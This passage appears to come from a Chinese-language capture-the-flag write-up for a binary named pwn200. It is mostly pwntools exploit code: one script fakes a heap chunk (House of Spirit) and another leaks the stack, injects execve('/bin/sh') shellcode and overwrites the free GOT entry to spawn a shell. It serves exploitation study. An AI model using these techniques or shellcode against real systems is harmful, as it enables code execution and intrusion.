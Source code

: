 ```py
payload = "\x00"*8 + p64(0x61) + "\x00"*0x28 + p64(fake_chunk)   #make a fake_chunk here
p.sendline(payload)

p.sendlineafter("choice :","2")
p.sendlineafter("choice :","1")
p.sendlineafter("how long?","79")   #97==0x61

payload = "a"*0x38 + p64(shellcode_addr)
p.sendlineafter("money : ",payload)
p.sendlineafter("choice :","3")

gdb.attach(p)
p.interactive()
```

多调试！！！

### 非HOS

把dest的值覆盖为free_got，；此时如果buf中为"shellocde_addr"+"\x00"*n，free的got表就指向shellcode，执行free时就相当于执行shellocde

```py
from pwn import *
p = process("./pwn200")
elf = ELF("./pwn200")
arch = "amd64"
#context.log_level = "debug"

p.recv()
shellcode="\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"
p.send(shellcode + "a"*(48-len(shellcode)))	
rbp = u64(p.recvuntil("?\n")[48:48+6].ljust(8,"\x00"))
print hex(rbp)
shellcode_addr = rbp - 0x50
print hex(shellcode_addr)
# leak rbp & shellcode_addr


p.sendline("111")
p.recvuntil("~\n")
payload = p64(shellcode_addr) + "\x00"*(0x38-len(p64(shellcode_addr))) + p64(elf.got["free"])


p.send(payload)
p.recv()
p.sendline("2")

#gdb.attach(p)
p.interactive()
```
